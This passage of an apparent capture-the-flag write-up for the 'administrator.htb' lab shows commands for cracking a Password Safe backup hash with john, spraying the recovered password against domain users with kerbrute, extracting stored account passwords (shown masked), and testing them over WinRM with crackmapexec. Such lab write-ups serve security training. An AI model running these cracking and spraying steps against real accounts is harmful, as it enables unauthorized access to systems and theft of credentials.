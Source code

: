 Crack it with john
```bash
john --wordlist=~/.local/share/seclists/rockyou.txt backupsafe.hash
```
```bash
john backupsafe.hash --show
Backu:t***********

1 password hash cracked, 0 left
```

Spraying it to all users just in case, no luck though
```bash
kerbrute passwordspray \
  -d administrator.htb \
  --dc 10.10.11.42 \
  users \
  't***********'
```

## Extract the passwords from passwordsafe

Install passwordsafe and open the archive with it
```bash
pwsafe Backup.psafe3
```

![passwordsafe.png](passwordsafe.png)

The passwords are
```
alexander:U*****************************
emily:U****************************
emma:W*****************************
```
```bash
cme winrm 10.10.11.42 -u users -p passwords
```
